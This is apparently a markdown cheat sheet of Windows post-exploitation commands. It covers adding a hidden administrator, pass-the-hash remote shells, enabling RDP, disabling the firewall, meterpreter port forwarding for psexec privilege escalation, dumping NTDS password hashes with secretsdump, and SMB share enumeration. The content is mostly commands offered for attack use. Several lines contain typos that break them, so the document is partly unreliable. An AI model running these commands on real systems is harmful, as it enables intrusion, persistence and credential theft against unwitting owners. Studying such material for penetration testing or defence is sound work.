 # Misc windows stuff

Add admin user.

```sh
net user username password /add
net localhroup administrators username /add
```

```sh
winexe - U jenkins/administrator //xxx.xxx.xxx cmd.exe
pth-winexe -U jenkins/administrator //xxx.xxx.xxx.xxx cmd.exe
```

Enable Remote Desktop:

```sh
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh firewall set service remotedesktop enable
```

Enable Remote assistance:

```sh
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh firewall set service remoteadmin enable
```

Disable firewall

```sh
netsh firewall set opmode disable
```

## List alternate data streams

```sh
dir /r
powershell (Get-Content hm.txt -Stream root.txt)
```

## msf meterpreter powershell

You can load powershell in meterpreter

```ssh
meterpreter> load powerhsell 
meterpreter> powershell_shell
```

##  msf meterpreter portfwd

You can port potforward in meterpreter.
This tunnel 445 to your host so you can use psexec for privesc.

```ssh
portfwd add -l 445 -p 445 -r 127.0.0.1
```

Dump secrets from hive

```sh
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

Check available chares 

```sh
smbmap -u 'username' -p 'password' -d 'domain' -H xx.xx.xx.xx
```
